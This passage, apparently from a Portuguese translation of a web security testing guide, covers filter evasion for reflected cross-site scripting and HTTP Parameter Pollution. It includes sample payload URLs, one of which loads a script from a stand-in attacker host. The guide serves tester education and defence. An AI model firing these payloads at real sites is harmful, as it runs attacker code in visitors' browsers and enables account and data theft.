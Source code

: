 1. Verifique por `<script`
2. Verifique por um espaço em branco
3. Qualquer caractere, exceto o caractere `>` por uma ou mais ocorrências
4. Verifique por `src`

Isso é útil para filtrar expressões como `<script src="http://atacante/xss.js"></script>`, que é um ataque comum. No entanto, neste caso, é possível contornar a sanitização usando o caractere `>` em um atributo entre script e src, como este:

```text
http://exemplo/?var=<SCRIPT%20a=">"%20SRC="http://atacante/xss.js"></SCRIPT>
```

Isso explorará a vulnerabilidade de script entre sites refletida mostrada anteriormente, executando o código JavaScript armazenado no servidor web do atacante como se ele estivesse originado do site da vítima, `http://exemplo/`.

## Exemplo 7: Poluição de Parâmetros HTTP (HPP)

Outro método para contornar filtros é a Poluição de Parâmetros HTTP (HPP). Essa técnica foi apresentada pela primeira vez por Stefano di Paola e Luca Carettoni em 2009 na conferência OWASP Poland. Veja o [Teste para Poluição de Parâmetros HTTP](04-Teste_para_Poluicao_de_Parametros_HTTP.md) para mais informações. Essa técnica de evasão consiste em dividir um vetor de ataque entre vários parâmetros que têm o mesmo nome. A manipulação do valor de cada parâmetro depende de como cada tecnologia web está analisando esses parâmetros, então esse tipo de evasão nem sempre é possível. Se o ambiente testado concatenar os valores de todos os parâmetros com o mesmo nome, então um atacante poderia usar essa técnica para contornar mecanismos de segurança baseados em padrões.
Ataque regular:

```text
http://exemplo/pagina.php?param=<script>[...]</script>
```

Ataque usando HPP:

```text
http://exemplo/pagina.php?param=<script&param=>[...]</&param=script>
```

Veja a [Cheat Sheet de Evasão de Filtro XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) para uma lista mais detalhada de técnicas de evasão de filtro. Finalmente, analisar respostas pode se tornar complexo. Uma maneira simples de fazer isso é usar código que abre um diálogo, como em nosso exemplo. Isso geralmente indica que um atacante poderia executar JavaScript arbitrário de sua escolha nos navegadores dos visitantes.

### Teste de Caixa Cinza

O teste de caixa cinza é semelhante ao teste de caixa preta. No teste de caixa cinza, o testador de penetração tem conhecimento parcial da aplicação. Neste caso, informações sobre a entrada do usuário, controles de validação de entrada e como a entrada do usuário é renderizada de volta para o usuário podem ser conhecidas pelo testador de penetração.

Se o código-fonte estiver disponível (teste de caixa branca), todas as variáveis recebidas dos usuários devem ser analisadas. Além disso, o testador deve analisar quaisquer procedimentos de saneamento implementados para decidir se esses podem ser contornados.
